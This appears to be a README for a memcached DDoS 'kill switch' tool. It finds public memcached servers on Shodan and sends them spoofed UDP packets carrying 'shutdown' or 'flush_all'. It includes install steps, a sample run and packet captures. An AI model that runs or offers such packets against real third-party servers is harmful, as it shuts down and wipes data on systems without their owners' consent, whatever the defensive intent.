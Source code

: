 Memfixed killswitch shamelessly copied from memcrashed  
  
Shutdown variant : Sends shutdown\r\n to the list of known memcached servers found on Shodan.  
  
Flushall variant : Sends flush_all\r\n to the list of known memcached servers found on Shodan.  
  
Uses Python 2.7  
pip install pathlib  
pip install scapy  
pip install shodan  
  
  
Example usage  
cp bots_20180309.txt bots.txt  
[root@ip-172-31-28-150 memfixed]# ./memfixed-shutdown.py  
Free memcached attack kill Switch shamelessly copied from memcrashed.  
Shutdown variant.  
Need Shodan API Key or use built-in bots.txt  
[*] Use Shodan API to search for affected Memcached servers? <Y/n>: n  
[*] Would you like to use locally stored Shodan data? <Y/n>: y  
[▸] Enter  IP address to protect from attack: 1.2.3.4  
[▸] Enter preferred power (Default 1):  
[*] Would you like to display all the bots stored locally? <Y/n>: n  
[*] Ready to protect source 1.2.3.4? <Y/n>: y  
[+] Sending 1 forged UDP packet to: xx.xx.xx.xx  
.[+] Sending 1 forged UDP packet to: xx.xx.xx.xx   
.[+] Sending 1 forged UDP packet to: xx.xx.xx.xx  
.[+] Sending 1 forged UDP packet to: xx.xx.xx.xx  
.  
[•] Task complete! Exiting Platform. Have a wonderful day.  
  
  
  
Sample generated trafic  
[root@ip-172-31-28-150 ~]# tcpdump -n dst port 11211  
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode  
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes  
09:18:38.632494 IP 1.2.3.4.domain > xx.xx.xx.xx.memcache: 0 [29544n] [30068au][|domain]  
09:18:38.639990 IP 1.2.3.4.domain > xx.xx.xx.xx.memcache: 0 [29544n] [30068au][|domain]  
09:18:38.648325 IP 1.2.3.4.domain > xx.xx.xx.xx.memcache: 0 [29544n] [30068au][|domain]  
09:18:38.654953 IP 1.2.3.4.domain > xx.xx.xx.xx.memcache: 0 [29544n] [30068au][|domain]  
  

